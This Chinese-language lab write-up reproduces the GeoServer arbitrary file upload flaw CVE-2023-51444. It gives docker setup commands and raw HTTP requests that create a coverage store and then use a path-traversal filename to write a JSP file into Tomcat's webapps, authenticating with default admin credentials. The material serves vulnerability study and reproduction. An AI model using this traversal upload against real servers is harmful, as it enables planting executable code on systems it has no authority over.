 # GeoServer 任意文件上传漏洞 CVE-2023-51444

​	GeoServer是一个开源服务器，用于共享、处理和编辑地理空间数据。它支持多种地图和数据标准，使用户能够通过网络访问和操作地理信息系统（GIS）数据。GeoServer 是开放地理空间联盟 (OGC) Web 要素服务 (WFS) 和 Web 覆盖服务 (WCS) 标准的参考实现，以及高性能认证的兼容 Web 地图服务 (WMS)、兼容的 Web 目录服务 ( CSW）并实施网络处理服务（WPS）。 GeoServer 构成了地理空间网络的核心组件。

​	在2.23.4版本之前和2.24.1版本之前存在一个任意文件上传漏洞，允许经过身份验证的管理员通过REST Coverage Store API修改覆盖存储器权限上传任意文件内容到任意文件位置。漏洞利用需要管理员权限。



GeoServer官网 https://geoserver.org/

项目github地址https://github.com/geoserver/geoserver



参考链接

- https://github.com/geoserver/geoserver/security/advisories/GHSA-9v5q-2gwq-q9hq
- https://github.com/geoserver/geoserver/pull/7222/files
- https://blog.csdn.net/shelter1234567/article/details/138637541

**受影响的版本**

<2.23.4，<2.24.1



## 漏洞环境

执行如下命令启动一个geoserver-v2.24.0：

```shell
sudo docker pull docker.osgeo.org/geoserver:2.24.0

sudo docker run -it -p8080:8080 docker.osgeo.org/geoserver:2.24.0
```



## 漏洞复现

1，登录查看数据目录

![image-20240509114322749](D:\github\VulneraLab\GeoServer\CVE-2023-51444\1.png)



2，创建coverageStore 为test, 及定义url路径为绝对路径（第一步收集到的数据目录信息），

```
POST /geoserver/rest/workspaces/sf/coveragestores?configure=all HTTP/1.1
Host: 192.168.160.128:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Content-Length: 352
Authorization: Basic YWRtaW46Z2Vvc2VydmVy
Content-Type: text/xml
Cookie: JSESSIONID=BA9BAFE1A0F1BF6857DF2E9FF57824B7
Accept-Encoding: gzip, deflate, br

<coverageStore>
  <name>test</name>
  <type>ImageMosaic</type>
  <enabled>true</enabled>
  <workspace>
    <name>sf</name>
  </workspace>
  <__default>false</__default>
  <dateCreated>2024-05-9 11:00:00.000 UTC</dateCreated>
  <disableOnConnFailure>false</disableOnConnFailure>
  <url>file:/opt/geoserver_data/data/sf/</url>
</coverageStore>
```

返回状态201表示成功

![image-20240509114812864](D:\github\VulneraLab\GeoServer\CVE-2023-51444\2.png)

3，上传文件

注意接口定义(这里上源码提示)

```java
@RequestMapping(
        path =
                RestBaseController.ROOT_PATH
                        + "/workspaces/{workspaceName}/coveragestores/{storeName}/{method}.{format}")
```

workspaceName我们选择sf此为系统自带，storeName就是我们第二步创建的coverageStore ，apache-tomcat-9.0.82为此次docker的目录tomcat的父路径，如果你想访问这个jsp的话此为必选项，

```jsp
POST /geoserver/rest/workspaces/sf/coveragestores/test/file.imagemosaic?filename=../../../apache-tomcat-9.0.82/webapps/test/print.jsp HTTP/1.1
Host: 192.168.160.128:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Content-Length: 33
Authorization: Basic YWRtaW46Z2Vvc2VydmVy
Content-Type: application/octet-stream
Cookie: JSESSIONID=BA9BAFE1A0F1BF6857DF2E9FF57824B7
Accept-Encoding: gzip, deflate, br

<% out.println("hello world"); %>
```

返回202代表上传成功

![image-20240509115328282](D:\github\VulneraLab\GeoServer\CVE-2023-51444\3.png)

访问验证

![image-20240509115419261](D:\github\VulneraLab\GeoServer\CVE-2023-51444\4.png)